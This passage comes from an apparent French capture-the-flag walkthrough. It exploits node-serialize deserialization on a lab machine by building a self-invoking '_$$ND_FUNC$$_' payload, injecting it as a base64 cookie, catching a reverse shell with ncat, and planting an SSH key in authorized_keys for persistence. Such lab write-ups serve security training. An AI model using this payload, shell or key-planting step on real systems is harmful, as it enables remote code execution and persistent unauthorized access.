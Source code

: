 ```js
}                                                                                                                      
var serialize = require('node-serialize');                                                                             
console.log("Serialized: \n" + serialize.serialize(y))
```

Il faut installer `node-serialize` via npm pour que le script fontionne normalement. Attention à mettre le code sur une seule ligne sinon des `\n` se retrouvent dans l'output et posent problème.

L'output généré ressemble à ceci :

```json
{"username":"_$$ND_FUNC$$_function() { return eval(...);}"}
```

C'est bien, mais on voit qu'il n'y a que la déclaration de fonction. La fonction n'est pas appelée dans le code.

C'est normal car si on l'appelle dans notre code JS çi dessus on sérialisera la valeur de retour de la fonction au lieu de la fonction elle-même !

Il faut par conséquent modifier le JSON après l'étape de sérialisation pour rajouter les parenthèses provoquant l'appel :

```json
{"username":"_$$ND_FUNC$$_function() { return eval(...);}()"}
```

On encode la totalité en base64 et on injecte le cookie dans le navigateur (j'utilise [EditThisCookie - Chrome Web Store](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) qui fait très bien le taff).

Je recharge la page et le code est bien désérialisé par le serveur et exécuté :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.55.
Ncat: Connection from 192.168.56.55:40918.
Connected!
id
uid=1001(web) gid=1001(web) groups=1001(web)
pwd 
/home/web/shuriken-node
cd ..
ls -al
total 36
drwxr-xr-x 6 web  web  4096 Dec 10  2020 .
drwxr-xr-x 4 root root 4096 Dec  9  2020 ..
lrwxrwxrwx 1 root root    9 Dec  9  2020 .bash_history -> /dev/null
-rw-r--r-- 1 web  web   220 Dec  9  2020 .bash_logout
-rw-r--r-- 1 web  web  3771 Dec  9  2020 .bashrc
drwxrwxr-x 4 web  web  4096 Dec  9  2020 .npm
drwxrwxr-x 5 web  web  4096 Nov 14 16:52 .pm2
-rw-r--r-- 1 web  web   807 Dec  9  2020 .profile
drwxrwxr-x 5 web  web  4096 Dec  9  2020 shuriken-node
drwx------ 2 web  web  4096 Dec 10  2020 .ssh
cd .ssh
ls -al
total 12
drwx------ 2 web web 4096 Dec 10  2020 .
drwxr-xr-x 6 web web 4096 Dec 10  2020 ..
-rw-r--r-- 1 web web  222 Dec 10  2020 known_hosts
echo ssh-rsa ---snip ma clé publique ssh snip--- > authorized_keys
```
